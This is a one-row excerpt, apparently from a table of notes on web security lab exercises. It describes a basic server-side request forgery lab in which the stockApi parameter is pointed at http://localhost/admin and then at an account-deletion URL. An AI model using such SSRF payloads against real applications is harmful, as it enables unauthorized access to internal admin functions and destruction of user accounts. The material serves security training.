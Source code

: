 |75    |Basic SSRF against the local server                                                                                      |http://localhost/admin  http://localhost/admin/delete?username=carlos                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |/admin is blocked.  Use check stock feature, change the stockApi parameter to access admin interface.  stockApi is a website URL e.g. http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Apprentice, SSRF                            |